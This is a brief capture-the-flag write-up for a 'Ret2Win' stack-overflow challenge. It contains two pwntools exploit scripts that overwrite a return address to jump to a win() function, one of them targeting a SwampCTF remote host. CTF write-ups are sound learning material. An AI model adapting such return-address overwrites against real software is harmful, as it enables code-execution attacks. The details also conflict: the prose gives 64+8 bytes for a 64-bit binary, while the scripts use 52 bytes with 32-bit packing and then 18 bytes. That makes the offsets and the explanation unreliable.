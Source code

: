 Ret2Win the binary
win() function is located somewhere else in the binary, not being called.

Solution: Overflow the return address and point it to the win() function.

Find the buffer (which was 64 characters) and then add 8 since it's a 64 bit binary. Reverse since it's little endian. (or just use pwntools)
```
from pwn import *            # This is how we import pwntools

p = process('./binary')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean()) 
```

```
from pwn import *             

from pwn import *

# Set the architecture and OS context
context.update(arch='x86_64', os='linux')
context.terminal = ['/bin/bash', '-c']  # Use standard Linux terminal

# Remote target details
HOST = "nc chals.swampctf.com 40001"
ADDRESS, PORT = HOST.split()[1:]

# Load the binary
BINARY_NAME = "./binary"
binary = context.binary = ELF(BINARY_NAME, checksec=False)

# Determine if running locally or remotely
if args.REMOTE:
    p = remote(ADDRESS, int(PORT))
else:
    p = process(binary.path)

# Payload parameters
length = 10 + 8
win = binary.sym.win
payload = length * b'A' + p64(win)

# Send payload
p.sendline(payload)
p.interactive()

```
